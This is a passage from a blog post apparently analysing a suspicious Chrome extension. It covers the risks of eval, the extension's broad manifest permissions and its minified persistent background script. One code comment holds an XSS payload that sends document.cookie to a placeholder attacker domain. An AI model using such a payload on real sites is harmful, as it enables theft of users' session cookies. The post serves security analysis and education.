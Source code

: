 Anything allowing the use of `eval` should raise suspicion since it runs any JS code that is represented as a string. The dangers of this function are pretty [well](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) [documented](https://www.digitalocean.com/community/tutorials/js-eval). As a quick example, an innocent looking snippet can be modified to send `httpOnly` cookies to the attacker’s domain.

```js
// app.js
eval('alert("Your query string was ' + unescape(document.location.search) + '");');

// Then, we can set the query parameter of the current URL to something like this to perform XSS:
// http://test.com?param%22);new Image().src='https://evil-domain.com/?cookie='+escape(document.cookie)
```



The last notable section is the `permissions` key in the manifest file. 

```json
"permissions": [ "webRequest", "storage", "tabs", "downloads", "<all_urls>", "management", "cookies" ]
```

Some points of interest include the fact that the extension can send web requests, read your tabs, read your downloads, execute on any page (from `<all_urls>` rule), read all your extensions, and all your cookies for any page.

### bg_script.js

As stated above, the one thing that seemed suspicious was the fact that the background script was set to be persistent, which is usually not the case in many extensions. With this in mind, the question becomes, what requests could the extension possibly need to make?

Upon loading the file, the code is an absolute hot mess. However, it’s not something any JS beautifying tool can’t fix.

![Minified code](https://raw.githubusercontent.com/Spiderpig86/blog/master/images/Extensions%20Google%20Chromes%20Soft%20Underbelly%20Part%201/minified.PNG)
